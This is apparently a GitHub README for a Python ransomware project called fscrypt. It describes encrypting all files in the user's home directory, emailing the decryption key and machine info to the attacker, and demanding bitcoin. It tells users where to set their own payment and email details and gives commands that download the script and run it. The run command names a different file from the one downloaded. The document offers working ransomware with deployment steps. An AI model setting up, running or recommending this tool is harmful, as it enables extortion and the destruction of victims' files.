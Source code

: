 Warning
Do not actually execute this on your Host OS! especially...

fscrypt.start(debug=False)  --> Catastrophic!
Help
if you would like to support me, here is my paypal email address: anon84080@gmail.com


Overview
The program is quite simple. Once invoked, it generates session_id and session_key, then it starts encrypting all files under your user directory. Finally, it will send the victim's machine info, session_id and session_key to the attacker with an anonymous email service (through mechanize), as well as displaying a notice to the victim, telling he/she to pay the ransom via bitcoin.

You may notice that I use Node and LinkedList to generate session_id and session_key. (This sequence generator was actually one of my assignment when I was a freshmen). It assembles a sequence with 0~68 unrepeatedly, in random order.

Check the object variable of fscrypt. You can set your email address and payment related stuff there.

Requirements:
Python 2.7
pyCrypto (crypto operations)
urllib2 (retrieve user ipv4 address)
mechanize (send session_key via anonymous email)
webbrowser (open html notice at the end)

Try out:
wget https://raw.githubusercontent.com/aesophor/fscrypt/master/fscrypt.py
sudo chmod u+x fscrypt.py
./fuxsocy.py
